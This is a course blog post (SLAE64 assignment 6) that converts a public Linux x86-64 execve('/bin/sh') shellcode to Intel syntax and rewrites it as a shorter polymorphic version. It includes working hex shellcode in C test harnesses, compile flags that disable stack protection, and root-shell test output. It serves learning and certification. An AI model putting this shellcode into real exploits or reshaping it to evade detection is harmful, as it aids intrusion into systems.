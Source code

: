 ```yaml
---
title: SLAE64 Assignment 6 - Polymorphic Execve
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the sixth assignment of the SLAE64, I created three polymorphic payloads from shellcodes on shellstorm and the exploit db. This is the first payload, execve.

This polymorphic version is 5 bytes shorter than the original, and maintains the same functionality.

# Original Shellcode
http://shell-storm.org/shellcode/files/shellcode-76.php
```nasm
# [Linux/X86-64]
# Dummy for shellcode:
# execve("/bin/sh", ["/bin/sh"], NULL)
# hophet [at] gmail.com
.text
    .globl _start
_start:
    xorq    %rdx, %rdx
    movq    $0x68732f6e69622fff,%rbx
    shr $0x8, %rbx
    push    %rbx
    movq    %rsp,%rdi
    xorq    %rax,%rax
    pushq   %rax
    pushq   %rdi
    movq    %rsp,%rsi
    mov $0x3b,%al   # execve(3b)
    syscall
    pushq   $0x1
    pop %rdi
    pushq   $0x3c       # exit(3c)
    pop %rax
    syscall
```
+ As we can see above, this is AT&T assembly syntax.

## Intel Assembly Version of the Shellcode

```nasm 
; [Linux/X86-64]
; Dummy for shellcode:
; execve("/bin/sh", ["/bin/sh"], NULL)
; hophet [at] gmail.com
_start:
    xor    rdx, rdx
    mov    rbx, 0x68732f6e69622fff
    shr rbx, 0x8
    push    rbx
    mov    rdi, rsp
    xor    rax, rax
    push   rax
    push   rdi
    mov    rsi, rsp
    mov al, 0x3b   ; execve(3b)
    syscall
    push  0x1
    pop rdi
    push  0x3c     ; exit(3c)
    pop rax
    syscall
```
+ Much better now without all those percentage and dollar signs.

## Compiling the Shellcode
```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53"
"\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f"
"\x6a\x3c\x58\x0f\x05";
int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

## Testing the Shellcode
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# ./shellcode
Shellcode Length:  41
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Polymorphic Version
```nasm
_start:
xor rsi, rsi ; rsi = 0x0
mul rsi      ; rax & rdx = 0x0
mov rcx, 0x68732f6e69622fff ; /bin/sh,0xff
shr rcx, 0x8
push rcx
mov rdi, rsp
mov al, 0x3b        ; execve system call
syscall

push 0x1
pop rdi
push 0x3c            ; exit(3c)
pop rax
syscall
```
+ I used the `mul rsi` technique to clear `rdx` & `rax`.
+ No need for the pointer to a pointer in `rsi` so I got rid of it.
+ I changed `rbx` to `rcx`.

### Polymorphic Version in Host Program
```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\x48\x31\xf6\x48\xf7\xe6\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73"
"\x68\x48\xc1\xe9\x08\x51\x48\x89\xe7\xb0\x3b\x0f\x05\x6a\x01"
"\x5f\x6a\x3c\x58\x0f\x05";

int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

### Compile and Test
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode-poly.c -o shellcode-poly
root# ./shellcode-poly
Shellcode Length:  36
# id
uid=0(root) gid=0(root) groups=0(root)
```
+ Awesome! The shellcode is shorter and works as intended!


## SLAE64 Blog Proof
```bash
This blog post has been created for completing the requirements of the x86_64 Assembly Language and Shellcoding on Linux (SLAE64):
    https://www.pentesteracademy.com/course?id=7
SLAE/Student ID: PA-10913
```

